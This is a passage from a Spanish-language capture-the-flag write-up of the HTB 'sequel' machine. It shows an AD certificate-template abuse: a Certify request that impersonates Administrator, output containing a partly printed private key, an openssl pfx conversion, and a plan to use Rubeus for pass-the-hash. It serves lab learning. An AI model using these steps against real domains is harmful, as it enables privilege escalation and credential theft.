 ```powershell
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
```
Una vez validando que es vulnerable obtenemos el archivo pem de este certificado.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:sequel\Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : sequel\Ryan.Cooper
[*] No subject name specified, using current context as subject.

[*] Template                : UserAuthentication
[*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] AltName                 : sequel\Administrator

[*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 22

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA7hebt5L2s7hrhI9MnqbMk+4eiAXWV19jyeORmMVSaBYCU+zq
jCcON72zICWm4nxdcuCKYZmY+NWaD6LEhaJK9gCRNqBXowwA+HNY4SdKtdqaH5xc
bvAys0X8pK/Pv3yHeD3RnZ9yuY/9COKLUCrTOJOXDYvoTc+hyoRsdk/P8XF5d+Dk
EZWFeEnbEwAFVXFo4y5fTqpFPMpnf+uPyoBmzRPC1lfz4f9B10bTB1MGyG5n03zm
RFDAylC2dbC7TMNqGvhpRngFNveku5l2xjKdIA51ysH3ITCuefz8RQDOzNagJdXG
<SNIP>
```
Una vez teniendo el ceriticado pem procedemos a descargalo a nuestra máquina y para obtener el archivo pfx.

```shell
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Con este archivo ya podemos regresarlo a la máquina víctima y con [Link](https://github.com/GhostPack/Rubeus "Rubeus") podemos obtener el ticket e incluso dumpear su hash ntlm para poder hacer pass the hash y entrar a la máquina como administrador.
